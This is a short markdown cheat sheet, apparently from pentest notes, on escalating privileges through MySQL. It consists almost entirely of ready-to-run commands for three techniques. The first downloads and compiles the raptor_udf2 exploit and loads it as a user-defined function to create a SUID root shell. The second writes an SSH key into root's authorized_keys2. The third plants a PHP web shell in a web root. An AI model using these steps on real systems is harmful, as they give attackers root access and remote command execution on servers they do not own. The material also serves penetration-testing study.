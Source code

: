 ```yaml
---
title: "Mysql Privilege Escalation"
date: 2024-6-27
tags: ["mysql", "database", "RCE", "php", "UDF", "exploit", "pe"]
---
```


### Abuse #1: User Defined Function (UDF)

<div>

```console
# Get the raptor_udf2.c
wget https://www.exploit-db.com/raw/1518 -O raptor_udf2.c
```

```console
# Compile the source script
gcc -g -c raptor_udf2.c
```

```console
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

```console
# Copy to target folder
cp raptor_udf2.so /dev/shm/raptor_udf2.so
```

```console
# Connect to database as root
mysql -u root -p<PASSWORD> mysql
```

```console
# UDF
create table foo(line blob);
```

```console
insert into foo values(load_file('/dev/shm/raptor_udf2.so'));
```

```console
# Get plug-in directory
show variables like '%plugin%';
```

```console
+-----------------+---------------------------------------------+
| Variable_name   | Value                                       |
+-----------------+---------------------------------------------+
| plugin_dir      | /usr/lib/x86_64-linux-gnu/mariadb19/plugin/ |
| plugin_maturity | gamma                                       |
+-----------------+---------------------------------------------+
```

```console
# Copy the plugin_dir value
select * from foo into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so'; 
```

```console
create function do_system returns integer soname 'raptor_udf2.so';
```

```console
# RCE
select do_system('cp /bin/bash /tmp/shell; chmod 4777 /tmp/shell');
```

</div>

<br>

---

### Abuse #2: Add ssh public key to root

<div>

```console
# Connect to database as root
mysql -u root -p'<PASSWORD>' mysql
```

```console
# Check privilege
select current_user();
```

```console
show grants for root@localhost;
```

```console
# If mysql file write is not able to append or overwrite authorized_keys
select "BASE64_PUB_KEY" into outfile "/root/.ssh/authorized_keys2";
```

</div>

<br>

---

### Abuse #3: Create php File from Database to RCE

<div>

```console
create table test(stuff text);
```

```console
insert into test values('<?php system($_REQUEST["cmd"]); ?>');
```

```console
select * from test into dumpfile 'C:\\xampp\\htdocs\\cmd.php';
```

</div>

<br>